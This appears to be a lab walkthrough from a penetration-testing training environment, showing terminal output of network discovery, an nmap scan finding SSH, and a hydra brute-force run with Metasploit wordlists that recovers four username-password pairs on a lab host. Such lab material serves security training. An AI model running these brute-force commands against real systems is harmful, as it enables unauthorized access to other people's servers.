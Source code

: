 ## 我自己的思路
```
root@attackdefense:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.5  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:05  txqueuelen 0  (Ethernet)
        RX packets 124  bytes 11106 (10.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 107  bytes 343757 (335.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.180.250.2  netmask 255.255.255.0  broadcast 192.180.250.255
        ether 02:42:c0:b4:fa:02  txqueuelen 0  (Ethernet)
        RX packets 16  bytes 1432 (1.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 18  bytes 1656 (1.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 18  bytes 1656 (1.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```
root@attackdefense:~# nmap -sV 192.180.250.3
Starting Nmap 7.70 ( https://nmap.org ) at 2022-10-20 03:39 UTC
Nmap scan report for target-1 (192.180.250.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:B4:FA:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
```

```
root@attackdefense:~# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.180.250.3 -t 4 sshHydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-20 03:49:07
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 350 login tries (l:7/p:50), ~88 tries per task
[DATA] attacking ssh://192.180.250.3:22/
[22][ssh] host: 192.180.250.3   login: sysadmin   password: hailey
[STATUS] 74.00 tries/min, 74 tries in 00:01h, 276 to do in 00:04h, 4 active
[22][ssh] host: 192.180.250.3   login: rooty   password: pineapple
[22][ssh] host: 192.180.250.3   login: demo   password: butterfly1
[22][ssh] host: 192.180.250.3   login: auditor   password: xbox360
[STATUS] 67.33 tries/min, 202 tries in 00:03h, 148 to do in 00:03h, 4 active
[STATUS] 60.50 tries/min, 242 tries in 00:04h, 108 to do in 00:02h, 4 active
```
